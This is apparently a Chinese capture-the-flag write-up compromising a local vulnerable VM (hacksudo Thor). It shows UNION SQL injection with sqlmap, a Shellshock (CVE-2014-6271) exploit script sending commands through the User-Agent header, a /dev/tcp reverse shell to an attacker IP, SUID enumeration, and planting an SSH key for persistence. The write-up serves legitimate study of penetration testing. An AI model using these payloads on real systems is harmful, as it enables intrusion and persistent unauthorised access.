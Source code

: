 nmap扫描结果

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202202221135760.png)

---

首页有个彩蛋`<img src="images/logo.png" onclick="eEgg_func()" width="100" height="100">`,点击够一定次数把一个网页弹出来,好像没啥用qwq

```JavaScript
<script>
var old_time = 0;
var count = 1;
var eEgg_flag = false;

var modal = document.getElementById('eEgg_modal');
var footer = document.getElementById('footer');

function eEgg_func(){
    var d = new Date();
    var n = d.getTime();
    var new_time = Math.ceil(n/1000);

    if ((new_time - old_time) <= 1) {
        count++;
    }
    else {
        count = 1;
    }
    old_time = new_time;

    if (count > 7 && !eEgg_flag) {
        modal.style.display = "block";
        eEgg_flag = true;

        // Timeout
        setTimeout(function () {
            modal.style.display = "none";
        }, 21000);

        //Timeout text display in the footer
        var now = new Date().getTime();
        var countDownDate = now + 21000;

        setInterval(function() {
          // Get todays date and time
          var now = new Date().getTime();

          // Find the distance between now an the count down date
          var distance = countDownDate - now;

          // Time calculations for seconds
          var seconds = Math.floor((distance % (1000 * 60)) / 1000);

          // Display the result in the element with id="demo"
          document.getElementById("footer").innerHTML =
                            "Going back in "+ seconds + "s...";
        }, 1000);
    }
}
</script>
```

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202202221134772.png)

xray扫描出有个`readme.md`

```md
...
将文件夹 [net-banking](https://github.com/zakee94/online-banking-system/tree/master/net-banking) 或其中的文件复制到本地主机的位置。例如“/var/www/html”，Ubuntu 中 localhost 的位置。

将 [net_banking.sql](https://github.com/zakee94/online-banking-system/blob/master/net_banking.sql) 数据库导入您的 MySQL 设置。

编辑文件 [connect.php](https://github.com/zakee94/online-banking-system/blob/master/net-banking/connect.php) 并为您的 MySQL 设置提供正确的用户名和密码。

打开浏览器并通过访问主页测试设置是否有效。在浏览器中输入“localhost/home.php”作为访问主页的 URL。

管理员和客户的所有密码和用户名都可以在数据库中找到，即在文件 [net_banking.sql](https://github.com/zakee94/online-banking-system/blob/master/net_banking .sql）。

但是，下面提供了一些重要的用户名和密码：
* admin 的用户名为“admin”，密码为“password123”。
* 大多数客户的用户名是他们的“first_name”，密码是他们的“first_name”，后跟“123”。
...
```

在作者的github仓库里面找到了数据库中存在的默认用户[https://github.com/zakee94/online-banking-system/blob/master/net_banking.sql#L202](https://github.com/zakee94/online-banking-system/blob/master/net_banking.sql#L202)

用户名`salman`,密码`salman123`

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202202221139262.png)

在[http://192.168.56.106/customer_transactions.php](http://192.168.56.106/customer_transactions.php)里面的`filter`存在注入点

`1' union select 1,2,3,4,5,6#`正常回显

sqlmap开跑

`requests.txt`

```
POST /customer_transactions.php HTTP/1.1
Host: 192.168.56.106
Content-Length: 33
Cache-Control: max-age=0
Origin: http://192.168.56.106
Upgrade-Insecure-Requests: 1
DNT: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.56.106/customer_transactions.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=jukdfmgi0kkp5adi3fu208fv5r
Connection: close

search_term=1&date_from=&date_to=
```

`sqlmap -r request.txt -p 'search_term' -v 3 --technique U --random-agent --prefix "'" --suffix "#" --union-cols 6`

可以进行文件读写

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202202221332763.png)

`1' union select 1,'<?php phpinfo();?>',3,4,5,6 into outfile '/tmp/a'#`

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202202221409409.png)

但是`/var/www/html`目录可读不可写...

`http://192.168.56.106/admin_login.php`以`admin`和`password123`成功登录

读取`/var/www/html/connect.php`文件

```php
<?php
$servername = "localhost";
// Enter your MySQL username below(default=root)
$username = "thor";
// Enter your MySQL password below
$password = "password";
$dbname = "hacksudo";

// Create connection
$conn = new mysqli($servername, $username, $password, $dbname);

// Check connection
if ($conn->connect_error) {
    header("location:connection_error.php?error=$conn->connect_error");
    die($conn->connect_error);
}
?>
```

然而并不能直接进行ssh连接

`dirsearch`扫出来有个`cgi-bin`

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202202221441430.png)

去瞄了眼wp,`cgi-bin`下有个`shell.sh`,推测利用方式为`cve-2014-6271`

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202202221454889.png)

用我之前写过的一个脚本去利用

```python
import requests

url = "http://192.168.56.106/cgi-bin/shell.sh"


def shell(cmd):
    headers = {'User-Agent': "() { :; }; echo; echo; /bin/bash -c '%s'" % cmd}
    r = requests.get(url=url, headers=headers, proxies=proxies)
    print(r.text)


if __name__ == '__main__':
    shell('whoami')
```

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202202221459802.png)

`sh -i >& /dev/tcp/192.168.43.185/9001 0>&1`成功反弹

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202202221525806.png)

`python3 -c 'import pty;pty.spawn("/bin/bash")'`转换成可交互shell

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202202221527135.png)

```
find / -user root -perm -4000 -print 2>/dev/null
/usr/bin/newgrp
/usr/bin/sudo
/usr/bin/su
/usr/bin/umount
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/passwd
/usr/bin/mount
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
```

存在命令执行

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202202221533321.png)

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202202221534057.png)

```sh
cat hammer.sh
#!/bin/bash
echo
echo "HELLO want to talk to Thor?"
echo 

read -p "Enter Thor  Secret Key : "  key
read -p "Hey Dear ! I am $key , Please enter your Secret massage : " msg

$msg 2>/dev/null

echo "Thank you for your precious time!"
```

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202202221535818.png)

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202202221537584.png)

在`/home/thor/.ssh/authorized_keys`写个公钥

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202202221544838.png)

[https://gtfobins.github.io/](https://gtfobins.github.io/)

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202202221549404.png)

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202202221549267.png)

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202202221551447.png)